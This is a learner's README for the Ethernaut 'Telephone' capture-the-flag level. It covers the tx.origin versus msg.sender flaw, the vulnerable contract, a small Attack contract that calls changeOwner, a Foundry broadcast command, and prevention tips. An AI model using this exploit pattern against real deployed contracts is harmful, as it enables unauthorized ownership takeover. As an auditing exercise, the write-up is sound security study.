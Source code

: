 # Ethernaut Level: Telephone - Smart Contract Auditing Journey

## Introduction
Hello! In this repository, I've solved the **Telephone** level as part of my Ethernaut challenges. I'm learning smart contract auditing by solving one level per day, and this folder (`levels/telephone/`) contains everything related to it.

**Goal:** Change the contract owner by exploiting the `changeOwner` function.  
**Tools:** Foundry (for scripting and testing), Sepolia testnet.  
**Solved Date:** October 18, 2025 (Day 5).  
**Success:** Verified on the Ethernaut site!

## Contract Overview
This contract has a simple ownership mechanism with a constructor setting the initial owner. The `changeOwner(address _owner)` function allows ownership transfer, but only if `tx.origin != msg.sender`—intended to prevent contract calls, but ironically exploitable by them.

**Key Code Snippet (from src/Telephone.sol):**
```solidity
contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {  // Vulnerable check!
            owner = _owner;
        }
    }
}
```

## Vulnerability Analysis
**Main Issue: tx.origin vs. msg.sender Confusion**  
- `tx.origin` is the original EOA (Externally Owned Account) starting the transaction, while `msg.sender` is the immediate caller (could be a contract). The check `tx.origin != msg.sender` allows contracts to call and change owner (since msg.sender = attack contract, tx.origin = EOA), but blocks EOAs. This is backwards—it's meant to restrict contracts but enables the exploit.  
- **Security Impact:** Unauthorized ownership takeover, allowing control over sensitive functions. In audits, this highlights the dangers of tx.origin (deprecated for security reasons) over msg.sender for authorization.  
- **Audit Tip:** Never use tx.origin—it's manipulable by proxies. Stick to msg.sender with signatures or roles (e.g., OpenZeppelin's Ownable). Scan for origin checks with tools like Slither.

**Example:** EOA calls Attack contract, which calls changeOwner. tx.origin = EOA, msg.sender = Attack → check passes, owner changes.

## Solution Steps
The attack: Deploy an "Attack" contract that calls `changeOwner` on the target. When EOA deploys/calls Attack, tx.origin remains EOA, but msg.sender becomes Attack, passing the check.

1. **Setup:** Create Foundry project, set target instance address in script.
2. **Run Attack:** `forge script script/TelephoneSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast`.
3. **Verify:** Check `owner()` matches your address, submit on Ethernaut site.

**Key Attack Code Snippet (from src/Attack.sol):**
```solidity
contract Attack {
    Telephone public telephone;

    constructor(Telephone _telephone) public {
        telephone = _telephone;
    }

    function attack(address _newOwner) public {
        telephone.changeOwner(_newOwner);  // msg.sender = Attack, tx.origin = EOA → Passes check!
    }
}
```

## Test and Output
- **Local Test:** Run `anvil` and `forge test`—simulates ownership change via Attack deployment and call.
- **Testnet Output Example:** Console log: "Before attack, Owner: 0xOriginal...", "After attack, Owner: 0xYourAddress".

## Key Learnings
- **Auditing Skill:** Flag tx.origin usage—it's a red flag for authorization flaws; prefer msg.sender + checks.
- **EVM Concept:** tx.origin tracks the transaction root (EOA), msg.sender the stack (contracts). Useful for multi-hop but insecure.
- **Prevention:** Use msg.sender == owner for access control; add reentrancy guards if needed.
- **Next Step:** Extend the script to verify ownership post-attack with a view call.

## Installation & Run
1. Install Foundry: `curl -L https://foundry.paradigm.xyz | bash`.
2. `cd levels/telephone`.
3. Set `.env`: `PRIVATE_KEY=your_key` and `SEPOLIA_RPC_URL=your_rpc`.
4. Run script: `forge script script/TelephoneSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast -vvvv`.

If you have questions, comment on the issue or mention me on X (@0xZHD_X)! Next level: `Token`. 🚀

---

**License:** MIT  
**Author:** [0xZHD] - Smart Contract Auditor Learner  
**X:** [Zahedul I Sadik](@0xZHD_X)  
**References:** [Ethernaut Docs](https://ethernaut.openzeppelin.com/)